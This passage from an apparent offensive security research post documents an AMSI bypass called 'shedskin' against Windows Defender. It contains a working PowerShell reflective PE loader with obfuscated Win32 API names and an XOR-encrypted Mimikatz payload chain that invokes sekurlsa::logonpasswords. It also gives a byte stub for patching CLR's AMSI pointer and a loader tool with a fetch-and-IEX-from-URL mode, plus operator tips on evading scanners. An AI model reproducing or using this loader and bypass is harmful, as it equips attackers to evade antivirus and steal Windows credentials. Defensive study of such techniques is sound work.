    $c = $t.DefineConstructor([System.Reflection.MethodAttributes]'RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, @([object], [IntPtr]))
    $c.SetImplementationFlags([System.Reflection.MethodImplAttributes]'Runtime, Managed')
    $m = $t.DefineMethod('Invoke', [System.Reflection.MethodAttributes]'Public, HideBySig, NewSlot, Virtual', [Int32], @([IntPtr],[UInt32],[IntPtr]))
    $m.SetImplementationFlags([System.Reflection.MethodImplAttributes]'Runtime, Managed')
    $Ddm = $t.CreateType()

    # Native-boundary bootstrap: walk the AppDomain's assemblies for System.dll
    # in the GAC, reach into the PRIVATE type Microsoft.Win32.UnsafeNativeMethods
    # and pull GetModuleHandle + GetProcAddress by MethodInfo. No DllImport anywhere.
    $un = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -and $_.Location.Split('\')[-1].ToLower() -eq 'system.dll' } | Select-Object -First 1).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $gmh = $un.GetMethod('GetModuleHandle')
    $gpa = $un.GetMethod('GetProcAddress', [Type[]]@([System.Runtime.InteropServices.HandleRef], [string]))
    $k = $gmh.Invoke($null, @(('k'+'erne'+'l32.dll')))
    $hr = New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr(0)), $k)

    # Resolve the three kernel32 primitives by runtime-concatenated name. No
    # literal 'VirtualAlloc', 'LoadLibraryA', or 'GetProcAddress' string appears
    # in the source. grep extended-loader.ps1 for VirtualAlloc returns zero hits.
    $va = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($gpa.Invoke($null, @($hr, ('V'+'irtu'+'alAlloc'))), $Dva)
    $ll = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($gpa.Invoke($null, @($hr, ('Loa'+'dLibr'+'aryA'))), $Dll)
    $gp = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($gpa.Invoke($null, @($hr, ('Ge'+'tProc'+'Address'))), $Dgp)

    $M = [System.Runtime.InteropServices.Marshal]

    # Parse PE headers at explicit offsets. BitConverter, not StructureToPtr.
    $nt   = [BitConverter]::ToInt32($P, 0x3c)
    $soi  = [BitConverter]::ToInt32($P, $nt + 0x50)   # SizeOfImage
    $soh  = [BitConverter]::ToInt32($P, $nt + 0x54)   # SizeOfHeaders
    $erva = [BitConverter]::ToInt32($P, $nt + 0x28)   # AddressOfEntryPoint
    $ib   = [BitConverter]::ToInt64($P, $nt + 0x30)   # ImageBase
    $ns   = [BitConverter]::ToUInt16($P, $nt + 6)     # NumberOfSections
    $soo  = [BitConverter]::ToUInt16($P, $nt + 0x14)  # SizeOfOptionalHeader
    $fs   = $nt + 0x18 + $soo                         # first section header offset

    # VirtualAlloc RWX region for SizeOfImage. 0x3000 = MEM_COMMIT|MEM_RESERVE,
    # 0x40 = PAGE_EXECUTE_READWRITE.
    $base = $va.Invoke([IntPtr]::Zero, [UIntPtr]([UInt64]$soi), [UInt32]0x3000, [UInt32]0x40)
    if ($base -eq [IntPtr]::Zero) { throw "va_fail" }

    # Copy PE headers.
    $M::Copy($P, 0, $base, $soh)

    # Copy each section from PointerToRawData to VirtualAddress.
    for ($i = 0; $i -lt $ns; $i++) {
        $s   = $fs + ($i * 40)
        $vsz = [BitConverter]::ToInt32($P, $s + 8)   # VirtualSize
        $vad = [BitConverter]::ToInt32($P, $s + 12)  # VirtualAddress
        $rsz = [BitConverter]::ToInt32($P, $s + 16)  # SizeOfRawData
        $rpt = [BitConverter]::ToInt32($P, $s + 20)  # PointerToRawData
        if ($rsz -gt 0 -and $vad -gt 0) {
            $dst = [IntPtr]::Add($base, $vad)
            $n   = [Math]::Min($rsz, $vsz)
            $M::Copy($P, $rpt, $dst, $n)
        }
    }

    # Apply relocations when base differs from ImageBase. IMAGE_REL_BASED_DIR64
    # (type 10) adds delta to a 64-bit value at [base + bva + off].
    $delta = [Int64]($base.ToInt64() - $ib)
    if ($delta -ne 0) {
        $rrva  = [BitConverter]::ToInt32($P, $nt + 0xB0)
        $rsize = [BitConverter]::ToInt32($P, $nt + 0xB4)
        if ($rrva -gt 0 -and $rsize -gt 0) {
            $rcur = [IntPtr]::Add($base, $rrva)
            $rend = [IntPtr]::Add($rcur, $rsize)
            while ($rcur.ToInt64() -lt $rend.ToInt64()) {
                $bva = $M::ReadInt32($rcur)
                $bsz = $M::ReadInt32($rcur, 4)
                if ($bsz -lt 8) { break }
                $ne = ($bsz - 8) / 2
                for ($j = 0; $j -lt $ne; $j++) {
                    $wraw = $M::ReadInt16($rcur, 8 + $j * 2)
                    $w    = $wraw -band 0xFFFF
                    $ty   = ($w -shr 12) -band 0xF
                    $off  = $w -band 0xFFF
                    if ($ty -eq 10) {
                        $pp = [IntPtr]::Add($base, $bva + $off)
                        $v  = $M::ReadInt64($pp)
                        $M::WriteInt64($pp, $v + $delta)
                    }
                }
                $rcur = [IntPtr]::Add($rcur, $bsz)
            }
        }
    }

    # Walk IMAGE_IMPORT_DESCRIPTOR. For each DLL: LoadLibraryA, then for each
    # thunk: GetProcAddress by name (or ordinal if high bit set) and write the
    # pointer into the IAT. Standard reflective PE loader import resolution.
    $irva = [BitConverter]::ToInt32($P, $nt + 0x90)
    if ($irva -gt 0) {
        $cur = [IntPtr]::Add($base, $irva)
        while ($true) {
            $oft  = $M::ReadInt32($cur)       # OriginalFirstThunk (name table)
            $nrva = $M::ReadInt32($cur, 12)   # Name RVA
            $ftp  = $M::ReadInt32($cur, 16)   # FirstThunk (IAT)
            if ($nrva -eq 0) { break }
            $dn = $M::PtrToStringAnsi([IntPtr]::Add($base, $nrva))
            $hm = $ll.Invoke($dn)
            if ($hm -eq [IntPtr]::Zero) { throw "ll_fail:$dn" }
            $tr = if ($oft -ne 0) { $oft } else { $ftp }
            $tp = [IntPtr]::Add($base, $tr)
            $ip = [IntPtr]::Add($base, $ftp)
            while ($true) {
                $th = $M::ReadInt64($tp)
                if ($th -eq 0) { break }
                if (($th -shr 63) -band 1) {
                    # Import by ordinal.
                    $ord = [Int32]($th -band 0xFFFF)
                    $fp  = $gp.Invoke($hm, $ord.ToString())
                } else {
                    # Import by name. Skip the 2-byte Hint.
                    $np = [IntPtr]::Add($base, [Int32]$th + 2)
                    $fn = $M::PtrToStringAnsi($np)
                    $fp = $gp.Invoke($hm, $fn)
                }
                $M::WriteInt64($ip, $fp.ToInt64())
                $tp = [IntPtr]::Add($tp, 8)
                $ip = [IntPtr]::Add($ip, 8)
            }
            $cur = [IntPtr]::Add($cur, 20)
        }
    }

    # Call entry via a managed delegate on the function pointer.
    $ep = [IntPtr]::Add($base, $erva)
    $dm = $M::GetDelegateForFunctionPointer($ep, $Ddm)
    $r  = 0
    try { $r = $dm.Invoke($base, [UInt32]1, [IntPtr]::Zero) } catch { $r = -999 }

    return $base
}
```

Four shapes of hygiene checked after writing this: `grep -i 'VirtualAlloc\|LoadLibraryA\|GetProcAddress\|DllImport' extended-loader.ps1` returns zero hits (names are concat-split, no literal Win32 string in the source); `[AppDomain]::CurrentDomain.GetAssemblies() | ? { $_.Location -match 'System.dll' }` returns the GAC `System.dll` (so the private-type bootstrap is reachable from any PS session); `[Microsoft.Win32.UnsafeNativeMethods]` is a `private` type in `System.dll`, reachable only via reflection, which keeps the loader off the `[DllImport]` scan surface in SMA; and the loader is call-site agnostic (it accepts a `byte[]`, works on any PE whose `IMAGE_REL_BASED_DIR64` relocations and `IMAGE_IMPORT_DESCRIPTOR` table are well-formed).

### payload

Mimikatz PE extracted from the x64 base64 blob in `Invoke-Mimikatz.ps1`. SHA256 `c36572664731f058a282fa6f943e48fe80646f6613c3a46f3eee1f4a121b2158`. 848,896 bytes. DLL, ImageBase `0x180000000`, 7 sections, entry RVA `0x67568`, exported symbol `powershell_reflective_mimikatz`.

A fresh 32-byte random XOR key per build. Every byte of the PE XOR'd with `key[i % 32]`. Encrypted blob base64'd and embedded as a single-line string literal in `payload.ps1`. Host-side roundtrip verified (decrypt reproduces original PE bytes exactly).

### the differential

Two payload shapes carry the same encrypted PE and the same loader. They differ only in how the Mimikatz command string is delivered:

- `payload-plain.ps1` (1,143,539 bytes) carries the literal string `privilege::debug sekurlsa::logonpasswords exit` in the source.
- `payload-cmd.ps1` (1,144,814 bytes) assembles the same command at runtime from a base64 UTF-16LE string, so no `sekurlsa::` literal appears in the source.

Four arms:

| arm | shape | shedskin | AMSI | event 1116 |
|---|---|---|---|---|
| P4-coded | runtime-decoded cmd | no | CLEAN | none |
| P5-coded | runtime-decoded cmd | yes | CLEAN | none |
| P6-plain | literal cmd string | no | BLOCKED | `HackTool:PowerShell/Mimikatz!ams` at 15:04:44 |
| P7-plain | literal cmd string | yes | CLEAN | none in 60s window |

P6 and P7 run the SAME file (sha256 `fd6954b3a9da7a27f2c7d487244858bbee64f15e84ab9607f12e2dcea1b6590a`). Only variable: shedskin applied.

Event timeline on the P6/P7 window:

```
14:54:43  Virus:DOS/EICAR_Test_File        Severe  (positive control start)
15:02:11  HackTool:PowerShell/Mimikatz!ams High    (prior pre-shedskin test)
15:04:44  HackTool:PowerShell/Mimikatz!ams High    (P6 pre-shedskin BLOCK)
...                                                 (P7 runs here, emits NO event 1116)
15:06:08  Virus:DOS/EICAR_Test_File        Severe  (positive control end)
```

Shedskin swap on P7 verified: `SHEDWRAP: hr=0 old=1556863210080 new=1556865871600`.

### the capability captured on P7

The P7 run produced two artifacts worth separating: (a) the Reflection.Emit loader diagnostics that trace the Mimikatz PE from decrypted bytes to a called export, and (b) the Mimikatz banner and command transcript the loader produced after jumping to the entry point. The loader stages are structural (the same stages run for any reflective PE), so they get a mermaid pipeline below. The Mimikatz output is content, so it stays verbatim.

**Loader pipeline, trimmed to the stages that matter to the AMSI claim:**





Full eight-stage receipts (decrypt, parse PE, VirtualAlloc, copy sections, apply relocations, resolve imports, DllMain, named export) with the measured outputs from `arm-shed-plain.out` (payload len 848,896; entry RVA `0x67568`; ImageBase `0x180000000`; 7 sections; VA base `0x16A7CAD0000`; relocation delta `0x168FCAD0000`; imports resolved 19; dllmain_ret 1; export returned ptr `0x16A7C700840`) are in the companion artifact bundle. The AMSI-relevant point above is the three bold stages: the raw PE never meets amsi.dll's parse-time scan path (decrypt happens in memory, after any AMSI check on the outer script), and never meets the file-scan RTP path (no file on disk).

Screencast of the full replay (110-frame, 2 fps, 55s): positive control EICAR fires at start (`DETECTED`, oracle alive), shedskin applied (`hr=0 old=... new=...` swap handles, `amsiInitFailed` stays False), Mimikatz PE decrypted and loaded through the extended Reflection.Emit loader, `privilege::debug` acquired, `sekurlsa::logonpasswords` invoked, PPL stops the credential read at NTSTATUS `0x5`, clean `exit`, positive control EICAR fires at end (`DETECTED`, oracle alive). Captured 2026-10-25 on the win11 guest, Defender sig 1.459.576.0, event 1116 `Virus:DOS/EICAR_Test_File` fires at 18:56:56Z and 18:57:15Z bracketing the P3 arm:

<video controls preload="metadata" style="width: 100%; max-width: 960px; border: 1px solid #767e22; background: #0e100e;">
  <source src="{{ '/assets/img/posts/shedskin/shedskin-mimikatz.mp4' | relative_url }}" type="video/mp4">
  <a href="{{ '/assets/img/posts/shedskin/shedskin-mimikatz.mp4' | relative_url }}">Download the screencast (shedskin-mimikatz.mp4)</a>
</video>

### current Mimikatz behaves identically

Re-run with current Mimikatz 2.2.0 (release 20220919, SHA256 `61c0810a..`) under the same chain, 2026-10-25. Three content shapes measured under three appnames via direct `AmsiScanBuffer`:

- The function wrapper (`function Invoke-Mimikatz { ... sekurlsa::logonpasswords ... }`) fires `Trojan:PowerShell/PSAttackTool.A` under `PowerShell_*` only; `MyAmsiScanner` and `x` return CLEAN. Same per-appname differential as Mimikatz 2.1, evolved sig name.
- The raw PE bytes fire `HackTool:Win32/Mimikatz!pz` universally. That signature lives in the Win32 pack with cross-pack coverage and does NOT bypass under any appname. The paper's chain is unaffected because the extended loader never scans the raw PE: the bytes are XOR-encrypted in `payload.ps1` and decrypted into process memory, bypassing the AMSI parse-time surface entirely.

The AMSI content-scan evidence here is a direct `AmsiScanBuffer` sweep over current Mimikatz shapes, not a matched P6/P7 execution against current Mimikatz. The direct sweep shows the sig-name has moved from `HackTool:PowerShell/Mimikatz!ams` (Mimikatz 2.1) to `Trojan:PowerShell/PSAttackTool.A` (current) and keeps the same `PowerShell_*`-only firing shape, so the AMSI content-scan surface a P6/P7 run would face is unchanged in that respect. A matched end-to-end P6/P7 run against current Mimikatz is not in this capture; the measured P6/P7 chain in the artifact bundle used Mimikatz 2.1.

The encoding axis is independently reproducible. A direct `AmsiScanBuffer` call on the ASCII byte sequence of the same `function Invoke-Mimikatz { $x = "sekurlsa::logonpasswords" }` wrapper, under a fresh `AmsiInitialize` context and a per-iteration appname, returns `hr=0 result=1` on Defender sig `1.459.576.0` build `10.0.26200.0`. Captured 2026-10-27 on the win11 guest, same methodology as the four-arm table in [the amsi-exact-32768 post]({{ '/amsi-exact-32768/' | relative_url }}):


<video controls preload="metadata" style="width: 100%; max-width: 960px; border: 1px solid #767e22; background: #0e100e;">
  <source src="{{ '/assets/img/posts/shedskin/invoke-mimi-probe.mp4' | relative_url }}" type="video/mp4">
  <a href="{{ '/assets/img/posts/shedskin/invoke-mimi-probe.mp4' | relative_url }}">Download the screencast (invoke-mimi-probe.mp4)</a>
</video>

The signature is on the UTF-16LE source the PowerShell parser hands AMSI, not on the ASCII byte sequence. Both the Oct 25 per-appname matrix above and this Oct 27 direct-call probe land on the same mechanism from different sides.

### the honest ceiling, measured

The `0x5` error is a kernel-level protection on lsass, specifically PPL on this guest. Registry read on the lab guest, 2026-10-25:

```
HKLM\SYSTEM\CurrentControlSet\Control\Lsa\RunAsPPL      = 2 (REG_DWORD)
HKLM\SYSTEM\CurrentControlSet\Control\Lsa\RunAsPPLBoot  = 2 (REG_DWORD)
HKLM\SYSTEM\CurrentControlSet\Control\DeviceGuard\...
  SecurityServicesConfigured = {2}  (Credential Guard CONFIGURED)
  SecurityServicesRunning    = {0}  (Credential Guard NOT RUNNING)
  VirtualizationBasedSecurityStatus = 1 (VBS enabled)
```

`RunAsPPL=2` enables LSA protection WITHOUT the UEFI-variable lock; `RunAsPPL=1` is the value that also writes the UEFI variable so the setting survives a registry edit (Microsoft Learn, "Configuring Additional LSA Protection"). LSASS here runs at the `WinSystem` / LSA PP signer level, NOT the Antimalware PP level; the two are distinct signer tiers. The LSA PP level is still a protected-process signer and refuses `PROCESS_VM_READ` to a non-PPL caller just as the Antimalware tier would. Credential Guard is configured in policy but is not active at this run, so Credential Guard is not what refused the handle. The `0x5` ACCESS_DENIED on `ReadProcessMemory` is PPL refusing a non-PPL caller the `PROCESS_VM_READ` right, regardless of debug privilege. The exact SKU rollout picture is outside the scope of this post; what matters here is the lab guest state recorded above.

Mimikatz needs `PROCESS_VM_READ` on lsass. PPL refuses that handle to a non-PPL caller regardless of debug privilege. Defeating this layer is out of scope for an AMSI-primitive paper. Signed vulnerable drivers (RTCore64, GDRV, procexp.sys variants), Credential Guard analysis for the configurations where it IS running, or reboot-time registry edits that disable `RunAsPPL` before next boot all live in different research tracks. The paper's scope ends at AMSI, and AMSI is cleared end-to-end on this chain.

### what the two variants prove together

- `payload-cmd.ps1` (P4/P5): no PS-pack-exclusive trigger in source. Encryption plus runtime-decoded commands pass AMSI without shedskin. Encryption alone suffices for this shape.
- `payload-plain.ps1` (P6/P7): same encrypted PE and loader, but the `sekurlsa::logonpasswords` literal in source matches `HackTool:PowerShell/Mimikatz!ams`. Pre-shedskin blocked, shed-applied clean. Shedskin earns the anchor role for this shape.

Shedskin's practical value lives on the second shape: an operator who inherits a payload with a PS-pack-exclusive trigger, or who wants command strings readable in source, uses shedskin to flip pack dispatch and clear the AMSI block. For an operator who controls their payload end-to-end, encryption plus runtime-decode is simpler and does not require shedskin.

Both results are honest. The chain was measured, the signatures named, the oracle alive at both ends. Artifact bundle (RECEIPT-v4.json, extended-loader.ps1, payload-plain.ps1, payload-cmd.ps1, Mimikatz PE SHA256, every event 1116 capture) will ship in the companion repo on publication; see the status note at the top of the post.

### a smaller sibling demo: the three-state nonced run

Beside the end-to-end Mimikatz chain above, a smaller sig-matching PS payload gives a cleaner three-state demonstration with explicit cache-poisoning accounting. Measured on Win11 26200.8037 (Defender 1.1.26080.3 sig 1.459.576.0), fresh `powershell.exe` session, raw PS output:

Payload (constructed at runtime, no literal in outer script source so file-parse scan does not catch it):

```
function Invoke-Mimikatz { $dump='sekurlsa::logonpasswords'; Echo FLAGSHIP_LANDED }; Invoke-Mimikatz
```

Three states, nonced per state so `AmsiResultCache` cannot carry a verdict across states:

| state | shedskin | amsiContext | result |
|---|---|---|---|
| A baseline | OFF | original PS context | **BLOCK** `[ScriptContainedMaliciousContent, Microsoft.PowerShell.Commands.InvokeExpressionCommand]` |
| B shedskin on | ON (swap to appname `x`) | new, state check prints `ctx_post == NEW` | **EXEC** → `FLAGSHIP_LANDED` printed |
| C restore + nonced | OFF (restored to original) | original PS context, `amsiSession` null-forced to re-open | **BLOCK** same error as state A |

State C is the negative control that the earlier shedskin-cache-poisoning observation requires: nonce the payload so the AmsiResultCache's content-hash key cannot serve the CLEAN result that state B populated. With the nonce, the restored PS context re-dispatches to the PS pack, hits the Mimikatz sig, blocks. The three-state transcript will ship in the companion artifact bundle on publication; the status box at the top of the post names what has not landed yet.

> **AmsiResultCache poisoning side-channel.** During state transitions I measured a secondary effect worth flagging. `AmsiResultCache` in `MsMpEng.exe` is keyed on SHA-1 of content (measured in a sibling investigation; content-only key, appname not part of the key). State B's clean scan of the Mimikatz pattern under `x` appname writes CLEAN into the cache keyed by the content hash. If state C re-fires the identical content without a nonce, the cache serves CLEAN regardless of the restored context, so a detection logic that "re-scans under forced original PS context" misses shedskin-poisoned content until cache eviction. The nonce above is what forces a cache miss and reveals the real post-restore verdict. Detections built on "replay the scan under a different context" need to either evict the cache first or compare against a non-cached oracle.

## the CLR DotNet-pack slot (summary; full post linked)

A separate primitive at a different layer: CLR's resolved `AmsiScanBuffer` function pointer lives at `clr.dll + 0x929870` (version 4.8.9345.0, SHA-256 `217a9b19..`). One 8-byte pointer overwrite diverts every `AmsiScanBuffer` call CLR routes through the DotNet gate into a 15-byte stub (`b8 01 00 00 00 48 8b 4c 24 30 89 01 33 c0 c3`) that writes `NOT_DETECTED` and returns `S_OK`. Reversible. Measured three-arm (baseline / patched / restored) on EICAR under a `DotNet_*` appname gives DETECTED / CLEAN / DETECTED, with the baseline fire proving the invocation path reaches amsi.dll before the patch.

**Scope and ceiling.** The slot primitive is proven byte-for-byte. The sampled .NET payloads were clean before patching on sig 1.459.576.0, so the end-to-end assembly-load chain was not demonstrated. This is a corpus limit, not a general finding that the DotNet pack lacks coverage.

A sibling observation refines the dispatcher claim: direct `AmsiScanBuffer` with appname `PowerShell_test` (which prefix-matches the dispatcher's 11-char case-sensitive compare) did NOT trigger the `Invoke-Mimikatz` signature that fires when SMA's own `IEX` path runs the same word. The dispatcher's prefix compare is the ROUTING decision; the SIGNATURE match inside the PS pack has its own appname-shape constraints. shedskin bypasses PS-pack signatures by routing OUT of the PS prefix; appname spoofing INTO the PS prefix cannot assume `PowerShell_X` is enough to activate every PS-pack signature.

Full write-up with the slot's radare2 derivation, the complete C and PowerShell patch primitives, the three-arm EICAR cycle, and the per-corpus baseline table: **[CLR's AMSI slot at clr.dll+0x929870](/clr-amsi-slot/)**.

## three asides a reviewer kept asking about

**CLR has had its OWN amsiContext since .NET 4.8 (2018).** The clr.dll RE above shows CLR's own `AmsiInitialize("DotNet", ...)` lazy-loader. The literal appname `"DotNet"` is a native string embedded in CLR's `.rdata` at RVA `0x7e4fbb` since Microsoft added `[System.Reflection.Assembly]::Load` AMSI integration to .NET Framework 4.8 in April 2018 (MSRC advisory ADV180022, "AMSI for CLR"). This is distinct from PowerShell's `AmsiUtils`, which is in SMA.dll and lives in managed code. Most PS-centric AMSI writeups ignore CLR's layer entirely because they stop at `AmsiUtils`. The DotNet pack in mpengine's host table at `0x180c1c158` is what that CLR integration dispatches into. Shedskin's primitive is pure-managed and does not touch CLR's native global, which is why the `-Assembly` chain mode (loading .NET exes via `Reflection.Load`) still faces the CLR DotNet-pack scan. Rastamouse's and Korkos's PoCs touched the PS side only; the CLR side is a separate research surface and a separate hook target.

**Avast coexistence removed MpOav from the AMSI\Providers registry.** During the third-party-vendor lab test (section 5 above), the Avast Free install flipped Defender to Passive Mode via the Microsoft Security Center arbiter, and the install deleted the `{2781761E-28E0-4109-99FE-B9D127C57AFE}` key under `HKLM\SOFTWARE\Microsoft\AMSI\Providers`. Windows enforces "one primary AV" at the AMSI-provider level, not just at the RTP level. Restoring the MpOav registry key by hand did NOT bring Defender RTP or MpOav scanning back; the Security Center arbiter re-removes it on next boot. Red-team planning note: a target with a non-Defender primary AV has NO MpOav in the AMSI provider list, so Defender-side AMSI bypasses (including shedskin and Korkos) are moot there, and the live AMSI provider is the vendor's. Measure before packing a Defender-targeted carrier on a non-Defender target.

**The RPC leg to MsMpEng is NdrClientCall3, interface UUID family `5FE1BC3B-41BF-4197-8FFE-DA2311848F**` over ncalrpc, scan opnum `0x5f`.** MpOav's provider holder calls `MpClient!MpAmsiScan` which marshals a request through `rpcrt4!NdrClientCall3` and `rpcrt4!Ndr64AsyncClientCall` (both imported by `MpClient.dll` 1,803,696 bytes, SHA256 `1b84eec5a260ec52d7a55163888b72deaa9182c08d261d083f18a4d840a3de97`). Static wide-string extraction over the DLL's `.rdata` surfaces a 64-entry UUID family at adjacent VAs: `5FE1BC3B-41BF-4197-8FFE-DA2311848F00` through `...F3F`, with `...F3F` at VA `0x180144400` reading as the root / version anchor and `...F00`/`...F06` at `0x180145ad0`/`0x180145a80` as sibling descriptors. All 64 share the stem `5FE1BC3B-41BF-4197-8FFE-DA2311848F**`. Transport is `ncalrpc` (string-bound at runtime from `.rdata`). The MIDL_STUBLESS_PROXY_INFO is at `0x180155890`, shared across every `MpAmsi*` call. The opnum is passed in `edx` right before each `call [NdrClientCall3]` via the compact `xor r8d, r8d; lea edx, [r8 + 0xNN]` pattern:

| Export | Call-site | Opnum | Role |
|---|---|---|---|
| `MpAmsiScan` | `0x180060568` | `0x5f` (95) | primary scan dispatch |
| `MpAmsiScan` | `0x180060757` | `0x60` (96) | result retrieval / follow-up on `S_OK` return from `0x5f` |
| `MpAmsiCloseSession` | `0x180060967` | `0x65` (101) | session teardown |

**MIDL_STUBLESS_PROXY_INFO fields, dumped from `MpClient.dll` at `0x180155890`:**

```
+0x00  pStubDesc              = 0x180141da0   // MIDL_STUB_DESC
+0x08  ProcFormatString       = 0x1801559a2   // packed NDR encoding, all procs concatenated
+0x10  FormatStringOffsetTable= 0x18015b8a0   // 16-bit offsets, one per opnum, index with opnum
+0x18  pSyntaxInfo            = 0x18015a950   // MIDL_SYNTAX_INFO (DCE / NDR64 transfer syntax)
```

To find each proc's NDR slice: `offset = FormatStringOffsetTable[opnum] (little-endian 16-bit)`, then `proc_bytes = ProcFormatString + offset`. For the three AMSI opnums:

| opnum | offset in table | proc_bytes VA | NDR header (first 10 bytes) |
|---|---|---|---|
| `0x5f` (MpAmsiScan primary) | `0x1516` | `0x180156eb8` | `00 68 00 00 00 00 5f 00 20 00` (header `0x68 0x00` = Oi2 proc, opnum `0x5f`, stack size `0x20`) |
| `0x60` (MpAmsiScan result retrieval) | `0x154e` | `0x180156ef0` | `00 68 00 00 00 00 60 00 20 00` |
| `0x65` (MpAmsiCloseSession) | `0x1660` | `0x180157002` | `00 68 00 00 00 00 65 00 20 00` |

Standard MIDL "new (Oi2)" proc header shape (`unsigned char Oi2Flags, unsigned char Ext2Flags, unsigned short RpcFlags, unsigned short ProcNum, unsigned short StackSize, ...`). Each row carries the same `0x68 0x00` flag pair (indicating "has return value, has out params, uses Ndr64 syntax marker") and a 32-byte stack size (`0x20`). Opnum 0x5f additionally carries a `0x30 0x4a 0x00 0x00` constant-client-buffer-size and `0x10 0x00` param count (16 parameters total including the implicit `handle_t`); opnum 0x60 and 0x65 are shorter. Full per-arg NDR type decoding needs the MIDL compiler's `midl.h` / `ndrtypes.h` tag table and ranges well beyond this writeup's scope. The honest result: proc headers resolve, opnum-to-ProcFormatString mapping is byte-level verified, full argument type reconstruction is deferred as a research-agenda item.

What is operationally useful without the full IDL: the MpClient wrapper at `MpAmsiScan` (RVA `0x5f450`) packs its arguments in the standard way:

```nasm
; MpClient.dll 1b84eec5.., VA 0x180060540..0x18006056e
; Entry inside MpAmsiScan's body, right before the first NdrClientCall3:
0x18006054a  488d85c800..   lea rax, [rbp + 0xc8]           ; address of AMSI_RESULT out param
0x180060551  4889442420     mov [rsp + 0x20], rax           ; 5th va_arg
0x180060556  4c8b4d08       mov r9, [rbp + 8]               ; 4th va_arg
0x18006055a  4533c0         xor r8d, r8d                    ; 3rd arg to NdrClientCall3: pReturnValue = NULL
0x18006055d  418d505f       lea edx, [r8 + 0x5f]            ; 2nd arg: nProcNum = 0x5f
0x180060561  488d0d2853..   lea rcx, [0x180155890]          ; 1st arg: pProxyInfo = &MIDL_STUBLESS_PROXY_INFO
0x180060568  ff151ad20c00   call qword [sym.imp.RPCRT4.dll_NdrClientCall3]
```

The va_arg list after the fixed `(pProxyInfo, nProcNum, pReturnValue=NULL)` prefix is what carries the actual AmsiScan arguments across ALPC. The decoded shape: `rcx = proxy_info`, `rdx = opnum`, `r8 = NULL return-value slot`, `r9 = first user arg (session handle or buffer-descriptor pointer, from [rbp+8])`, `[rsp+0x20] = second user arg (AMSI_RESULT* out, from [rbp+0xc8])`. Further user args follow at `[rsp+0x28]`, `[rsp+0x30]`, ... .

Call stack reads SMA -> amsi.dll -> MpOAV.dll -> ALPC via rpcrt4!NdrClientCall3 (ncalrpc, UUID `5FE1BC3B-41BF-4197-8FFE-DA2311848F**`, opnum `0x5f`) -> MsMpEng.exe -> mpengine.dll dispatcher. Ghosting-AMSI (Bocchetti 2026) hooks `NdrClientCall3` at the layer above this; a sibling-class defender-side mitigation that validates both the interface UUID and the opnum (`0x5f` for scan) at `NdrClientCall3` entry would catch Ghosting-AMSI's hook target without any false positive on sibling MpClient calls (there are 60+ `NdrClientCall3` sites across MpClient's RPC surface, each with its own opnum). Shedskin operates two layers higher (at the SMA AmsiUtils static field), so the ALPC leg is unchanged by this technique and the UUID / opnum surface is only interesting if a sibling-class attack is being evaluated.

## is the XOR obfuscation part of the technique?

No. Shedskin is three API calls and one field write. That is the entire mechanism. Any obfuscation applied in the carrier is standard payload hygiene, the same hygiene Rastamouse's `[Ref].Assembly.GetType(...).GetField('amsiInitFailed',...)` one-liner has needed since Defender added a sig for it in 2018. Operators obfuscate the carrier because Defender's AMSI content-scan sig DB catches the WORDS, not the mechanism.

If you ran the four-line shedskin interactively at an open `PS>` prompt, typing each line fresh, no obfuscation would be needed at all. AMSI scans each submitted line independently and no single line of the four-line sequence contains a signatured pattern by itself. `AmsiInitialize` is just an API name. `GetField('amsiContext', 'NonPublic, Static')` is just a reflection call. `AmsiUninitialize` is just another API name. None of these alone match a Defender sig today (I measured). The sig DB sees them as benign PowerShell.

What triggers Defender's AMSI block is a FILE containing enough of the pattern to be recognized as an attack-tool shape: multiple AMSI identifiers in close proximity, the DefinePInvokeMethod + reflection combination (`InMemoryLoader` sig family), or an actual Mimikatz-shape function skeleton (`HackTool:PowerShell/Mimikatz!amsi` sig family). The file-level pattern is what you obfuscate, because the file is what gets parsed in one pass.

The real differentiator between shedskin and Rastamouse is NOT the obfuscation. It is the MECHANISM. Rastamouse flips `amsiInitFailed` to True. Shedskin never touches `amsiInitFailed`. End state is observable: `amsiInitFailed=False` after shedskin, `amsiInitFailed=True` after Rastamouse. Korkos's 2022 detector watches that transition and explicitly whitelists the only API that can change it legitimately (`AmsiUninitialize`-caused state transitions). Shedskin lives inside the whitelist by construction. No amount of obfuscation changes that; it is the end state that matters to the detector, not the carrier bytes.

Analogously: Rastamouse's one-liner has been obfuscated a thousand different ways (base64, char array, escape chars, Format strings). Every form is still the same mechanism and every form is still caught by `amsiInitFailed`-flip detectors. The obfuscation never changed the mechanism. Here, the obfuscation does not make shedskin novel; the mechanism does.

So the honest answer to "where's your technique at": the technique is the FIELD SWAP against the aggregator-indexed amsi.dll state, with `amsiInitFailed` left alone. The XOR of identifiers is the carrier hygiene any file-delivered form needs, same as every published AMSI PoC since 2016. If you want to see it raw, open an interactive `PS>` session and type the four lines by hand; it still works with zero XOR anywhere.

## shedskin.ps1, the loader tool

The amp pass shipped the technique as a reusable loader. Four payload modes, non-destructive positive-control probes, [+] / [-] / [!] / [*] / [>] colored status prefixes, honest reporting of each limit.


Usage:

```
.\shedskin.ps1 -Check                        # apply + verify, no payload
.\shedskin.ps1 -Script  payload.ps1          # dot-source a .ps1
.\shedskin.ps1 -Base64  <b64>                # UTF-8 base64 PS source
.\shedskin.ps1 -Url     http://host/mod.ps1  # fetch + IEX
.\shedskin.ps1 -XorFile obfuscated.xor       # XOR 0xAA, IEX in memory
.\shedskin.ps1 -Assembly tool.exe -Arg a,b   # Reflection.Assembly.Load, EP.Invoke
.\shedskin.ps1 -AssemblyBase64 <b64> -Arg .. # same, from a string
.\shedskin.ps1 -Binary mimikatz.exe -Arg ..  # Start-Process (no AMSI; RTP still applies)
.\shedskin.ps1 -XorFile big.xor -Chunk 65536 # split large PS payload under second-pass threshold
```

The `-Assembly` and `-Chunk` modes exist specifically to work around the "what shedskin does not do" limits documented above. `-Assembly` sidesteps the inner-scriptblock AMSI retrigger (PS does not content-scan precompiled .NET assemblies the same way). `-Chunk` splits a PS payload into pieces each small enough to slip under whatever size-anchored sanitizer is responsible for the second pass.

